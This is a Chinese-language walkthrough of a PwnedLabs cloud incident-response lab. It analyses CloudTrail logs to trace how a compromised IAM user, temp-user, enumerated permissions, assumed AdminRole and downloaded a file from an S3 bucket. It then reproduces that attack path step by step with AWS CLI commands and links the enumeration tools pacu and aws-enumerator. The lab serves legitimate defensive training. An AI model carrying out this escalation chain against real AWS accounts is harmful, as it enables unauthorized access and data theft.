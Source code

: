 > <font style="color:#000000;background-color:#ECAA04;">CloudTrail</font>
>
> AWS CloudTrail 是一种针对你的 AWS 账户进行运营审计、风险监控、治理与合规的服务。它会记录由用户、角色或 AWS 服务所执行的所有操作，产生的事件来源包括 AWS 管理控制台、CLI、SDK 以及 API 等。 支持快速查看近 90 天事件、配置 Trail 存储长期日志、甚至通过数据湖（CloudTrail Lake）实现多年日志分析，是安全、运维、合规的核心工具。  
>

[什么是 AWS CloudTrail？ - AWS CloudTrail](https://docs.aws.amazon.com/zh_cn/awscloudtrail/latest/userguide/cloudtrail-user-guide.html)



首先，我们从PwnedLabs的Discord中下载CloudTrail日志（在🔎-case-files频道中）。

解压后查看：

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1755843345333-b067b3de-d4b0-4568-85fe-7cd7a09ca631.png)

打开后发现未格式化，先格式化JSON文件：

```bash
for file in *.json; do jq . "$file" > "$file.tmp" && mv "$file.tmp" "$file"; done
```

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1755843620156-802e1497-8bb4-4652-8021-c5934eeb4bd6.png)

我们先来开一下在所有日志中都有哪些AWS主体（IAM 用户和角色）做了事情。

```bash
grep -r userName | sort -u # 递归搜索当前目录及其子目录下的所有文件中查找包含userName的行，并对结果进去排序和去重。
```

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1755843914147-03a333e7-78cf-4230-9196-d3fb9d507e68.png)

其中temp-user这个账户多次出现，在不同的时间段，高度活跃。

我们从最早的日志文件开始分析：

```bash
grep -A 10 temp-user 107513503799_CloudTrail_us-east-1_20230826T2035Z_PjmwM7E4hZ6897Aq.json
```

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1755844589496-f09b930f-c02f-45db-a9b6-1bfbb6e8826c.png)

我们可以看到IAM用户temp-user调用了`GetCallerIdentity`API。结合这些判断他执行的CLI命令是：

```bash
aws sts get-caller-identity
```

一般来说攻击者或脚本通常会先执行它确认`Access Key/Secret`是否可用，然后再决定进一步的操作。  

> <font style="background-color:#ECAA04;">GetCallerIdentify</font>
>
> 功能：此接口用于返回当前调用者的身份信息，包括账户 ID、ARN 和用户 ID。  
>
> 权限要求：调用此接口无需任何权限，即使管理员策略明确拒绝访问该`<font style="color:#000000;background-color:rgba(255, 255, 255, 0);">sts:GetCallerIdentity</font>`操作，也能成功调用。
>

[GetCallerIdentity - AWS Security Token Service](https://docs.aws.amazon.com/zh_cn/STS/latest/APIReference/API_GetCallerIdentity.html)

查一下这个请求IP

```bash
curl ipinfo.io/84.32.71.19
```

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1755846325716-2a92426b-30e9-46f1-aa60-6b33c32516b4.png)

发现这个IP归属为`Cherry Servers`。

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1755846517730-fee71666-7109-4ce4-85f5-c16d8cb33b3b.png)

发现这是一个云资源提供商。但Huge Logistics并没有使用其服务，因此这可以是一个潜在的IoC。

继续查看下一个文件：

```bash
grep -A 20 temp-user 107513503799_CloudTrail_us-east-1_20230826T2040Z_UkDeakooXR09uCBm.json
```

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1755856481069-6365eac1-1132-4b49-a6bd-586ef3c3543e.png)

可以看到temp-user尝试列出emergency-data-recovery存储桶中的对象，但未成功（Access Denied）。

我们继续下一个文件，发现有很多temp-user发出的请求，但好多是AccessDenied，可以考虑到他可能在进行爆破，我们看一下连续两篇日志的errorMessage数量：

```bash
grep errorMessage 107513503799_CloudTrail_us-east-1_20230826T2050Z_iUtQqYPskB20yZqT.json | wc -l
grep errorMessage 107513503799_CloudTrail_us-east-1_20230826T2055Z_W0F5uypAbGttUgSn.json | wc -l
```

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1755848222311-90e768cc-1bbb-446a-a260-79d6c0c37c6f.png)

我们可以看到在下一个日志中有450条errorMessage记录。极可能在进行爆破。

> 攻击者利用工具通过爆破尝试发现或滥用AWS账户中的权限。
>
> 攻击者由于不知道掌握的IMA用户或者角色拥有哪些权限，会尝试大量API调用来探测可行的操作。
>
> 工具：[aws-enumerator](https://github.com/shabarkin/aws-enumerator)，[pacu](https://github.com/RhinoSecurityLabs/pacu)。
>

[aws-enumerator-main.zip](https://www.yuque.com/attachments/yuque/0/2025/zip/36181902/1755849275656-4aab2375-e4ed-4c6a-9eab-90c106b294df.zip)

[pacu-1.6.1.zip](https://www.yuque.com/attachments/yuque/0/2025/zip/36181902/1755849712548-36b5e8df-50bc-49b7-b93d-528843167587.zip)

查看下一个日志

```bash
grep -A 20 temp-user 107513503799_CloudTrail_us-east-1_20230826T2100Z_APB7fBUnHmiWjHtg.json
```

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1755855606870-862ef9ac-7d59-4631-a95a-ff10c7addf52.png)

看到`esponseElements.credentials`且角色 ARN 是`AdminRole`，那么temp-user成功承担名为AdminRole的角色。

> AssumeRole
>
> `AssumeRole` 是 AWS STS 的一项 API 操作，允许合法的身份（IAM 用户、角色、应用程序等）在设定的信任策略下，临时获取另一个角色（如 `AdminRole`）的权限，并得到一套临时凭证（Access Key ID、Secret Access Key、Session Token）这意味着该用户临时获得管理员权限，可以访问本应无权访问的资源。
>
> 要成功 AsssumeRole，必须满足两个条件：
>
> 1. 调用方必须拥有调用 `sts:AssumeRole` 的权限；
> 2. `AdminRole` 的信任策略（Trust Policy）必须明确允许该身份承担此角色
>

[AssumeRole - AWS Security Token Service](https://docs.aws.amazon.com/zh_cn/STS/latest/APIReference/API_AssumeRole.html?utm_source=chatgpt.com)

查看下一个日志：

```bash
grep -A 20 AdminRole 107513503799_CloudTrail_us-east-1_20230826T2105Z_fpp78PgremAcrW5c.json
```

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1755856229505-d1151c40-30b0-479b-9793-c062b856713a.png)发现他又调用了GetCallerIdentity这个API。

```bash
grep eventName 107513503799_CloudTrail_us-east-1_20230826T2120Z_UCUhsJa0zoFY3ZO0.json
```

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1755856713135-b9369c50-8794-4ca7-adb6-30c2dc86bdba.png)

看看他们访问的内容：

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1755976659350-2eb38648-c792-4daf-9336-f6ffd2827721.png)

他们下载了emergency.txt这个文件。







攻击路径：

首先入侵获取了AWS密钥。

```bash
aws configure --profile breach-in-the-cloud
```

 查询当前调用者的身份信息。

```bash
aws sts get-caller-identity --profile breach-in-the-cloud
```

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1756020478987-369703f8-de21-4753-94ff-f52f7f3ff335.png)

查看是否有内联用户策略附加到我们的 IAM 用户。

```bash
aws iam list-user-policies --user-name temp-user --profile breach-in-the-cloud
```

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1756020671330-e27516ac-74cf-4f3e-bf08-3d00c46909eb.png)

这里列出了这个用户有一个内联策略是test-temp-user。

查看这个内联策略：

```bash
aws iam get-user-policy --user-name temp-user --policy-name test-temp-user --profile breach-in-the-cloud
```

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1756020795345-39d1ed1e-cfa9-46b5-a905-b7907d9288dd.png)

看到这里设置的这个用户可以承担AdminRole角色。

接管这个角色：

```bash
aws sts assume-role --role-arn arn:aws:iam::107513503799:role/AdminRole --role-session-name MySession --profile breach-in-the-cloud
```

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1756020874676-cc597d9f-4db0-493c-b06e-207db9c829d4.png)

设置上面给出的`AccessKeyId`，`SecretAccessKey`。

```bash
aws configure --profile breach-adminrole
```

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1756020954521-6aa039f0-4bab-454d-9ecb-beffc7c4b241.png)

设置SessionToken来承担该角色。

```bash
aws configure set aws_session_token "FwoGZXIvYXdzEPj//////////wEaDEqKPBc/EjTw1dTEtiKtAS/YJI2BmQEWc2DecDkv4rnZHzT1aqRN6TrVHMx9zzzJIh9ji8y3B02DrICqy6NB3YKavN7Qnwy+OS9fwGpHOBjoMY5g8uqYGv0m50IrRB+/9oF2t4OHkOmHxgrrgatlcjvRemSxwVXFP8ecxnV/Fq9pmKzJKYiAIYg7ZUXNFu1BBPt7KovHWoT7qCuod86UJT0NmyWMZFAbCRPKt/tsajHwsJh11ZkkTs6HbiYWKNbwqsUGMi2qubiFG8rKQNJphXr7X3EfS73BkDqMCgdJLy+i3j5cg/VFe3JKUFvM8NtpsJg=" --profile breach-adminrole
```

查询当前调用者的身份信息。

```bash
aws sts get-caller-identity --profile breach-adminrole
```

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1756021094009-e134a84d-0827-4e41-bf07-69e2b4bdd3eb.png)

可以看到已经是AdminRole了。

现在尝试列出存储桶内对象。

```bash
aws s3 ls s3://emergency-data-recovery --profile breach-adminrole
```

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1756021208267-ae2b3095-301b-48bd-853d-f9f55dfb6725.png)

下载：

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1756021475179-4ea40084-4535-4c3d-9d91-91b57504906a.png)

查看文件发现flag：

![](https://cdn.nlark.com/yuque/0/2025/png/36181902/1756021527566-0a0d7bb7-ba0c-42d4-89b8-46bd80e714c9.png)

